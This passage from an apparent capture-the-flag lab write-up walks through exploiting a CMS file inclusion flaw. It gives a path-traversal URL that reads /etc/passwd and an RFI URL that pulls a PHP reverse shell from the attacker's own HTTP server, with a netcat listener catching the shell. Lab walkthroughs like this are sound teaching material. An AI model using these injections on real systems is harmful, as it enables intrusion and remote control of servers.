 A quick look on searchsploit shows that this is vulnerable to **local/remote file inclusion**.  This vulnerability allows attackers to retrieve files on the target machine or insert files from a remote server which they control.

![searchsploit](screenshots/13_searchsploit.png)

#### Exploiting CMS with Local/Remote File Inclusion 

I first tested to see if we can retrieve the `/etc/passwd` file using the following command:

```
http://<ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

The `../../../../../../` specifies that we want to traverse back through the directories until we can't go any further.  Then, it will navigate to the `/etc/passwd` file and display it as if it were a normal webpage:

Then, I was able to retrieve the `user.txt` flag in the `/home/miles` directory using a similar injection:

![user.txt](screenshots/14_user_flag)

Unfortunately, we can't do the same for the root flag.  So, we need to get access to the machine and escalate our privileges.  Let's use this remote file inclusion vulnerability to upload a reverse shell.  I am using a PHP reverse shell which you can download from [here](https://github.com/pentestmonkey/php-reverse-shell).

If you are doing the same make sure to change the IP to your IP address and port (optional) so that netcat can catch the callback:

![PHP reverse shell](screenshots/15_reverse_shell_config/.php)

Next, start a `python` HTTP server in the directory where this shell is stored and start a `netcat` listener on your chosen port. Then, use the following injection:

```
http://10.10.185.57/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<ip>/php-reverse-shell.php
```

This will fetch the `php-reverse-shell.php` file from your system as if it were a page on the site.  You should have access to the system on your `netcat` listener:

![netcat callback](screenshots/16_netcat_callback.png)
